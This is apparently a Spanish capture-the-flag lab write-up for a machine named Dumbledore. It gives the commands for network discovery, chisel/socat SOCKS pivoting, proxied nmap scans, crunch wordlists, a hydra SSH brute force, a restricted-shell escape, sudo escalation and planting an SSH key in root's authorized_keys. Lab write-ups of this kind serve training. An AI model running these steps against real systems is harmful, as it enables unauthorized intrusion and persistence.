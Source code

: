 [[4. Dumbledore]]
# Fase de reconocimiento
## Buscamos hosts en la red
```
arp -a
```
No sale nada.
Borramos la tabla arp.
```
arp -d
```
Haremos descubrimiento con un bucle
```
for /L %a in (1,1,254) do @start ping <subnet5>.%a -w 100 -n 2>nul
```
```
arp -a
```
## Pivoting con Chisel
https://github.com/jpillora/chisel Nos descargamos la version Win_amd64
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Abrimos un server smb en el equipo atacante
```
smbserver.py smbFolder $(pwd) -smb2support
```
2. Copiamos chisel en la maquina Dumbledore
```
copy \\<ip2>\smbFolder\chisel.exe chisel.exe
```
3. Nos conectamos al servidor
```
./chisel client <ip2>:6543 R:9999:socks
```
4. Con socat en Nagini lo redirigimos al servidor
```
./socat TCP-LISTEN:6543, fork TCP:<ip1>:1234
```
Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"
```
# strict_chain
Deshasteamos dynamic_chain
add abajo:
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
```
Ahora para ejeuctar comandos en 'ip4' con proxycahins -comando-
## Buscar puertos
```
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip5> 2>/dev/null
```
Buscaremos puertos con la ayuda de xargs para agilizar el escaneo
```
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip5> 2>&1 | grep "tcp open"
```
![[Pasted image 20240424212524.png]]
## FoxyProxy
Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 9999
## whatweb
```
proxychains whatweb http://<ip5>:31337
```

Encontramos una pista en base64 que nos lleva a otra pista en lenguaje brainfuck que contiene una contraseña a la que le faltan 2 caracteres.
# Fase de ataque
## Fuerza bruta 
### Crunch
Crea diccionario de contraseñas para ataque de fuerza bruta
```
crunch 8 8 -t Kill0r%@ > passwords
```
```
crunch 8 8 -t Kill0r@% >> passwords
```
### Hydra
```
proxychains hydra -l guest -P passwords ssh://<ip5> -t 20 2>/dev/null
```
![[Pasted image 20240424215026.png]]
[-] ==pwned!==

Nos encontramos ante una restricted bash, por lo que cargamos bash:
```
proxychains ssh guest@<ip5> bash
```
 Ajustar Terminal
# Privilege Escalation
```
sudo -l
```
Tenemos todos los privilegios por lo que podemos ser root
```
sudo whoami
```
[+] ==pwned!==
# Pivoting
- Añadimos nuestra clave publica a /root/.ssh/authorized_keys
```
proxychains ssh root@<ip2>
```
# Resumen Técnicas 
Crypto Challenge 
Creating a password dictionary using crunch 
EXTRA: Applying brute force with Hydra by going through a triple SOCKS5 proxy 
Escaping from a restrictive shell 
Abusing sudoers privilege (Privilege Escalation)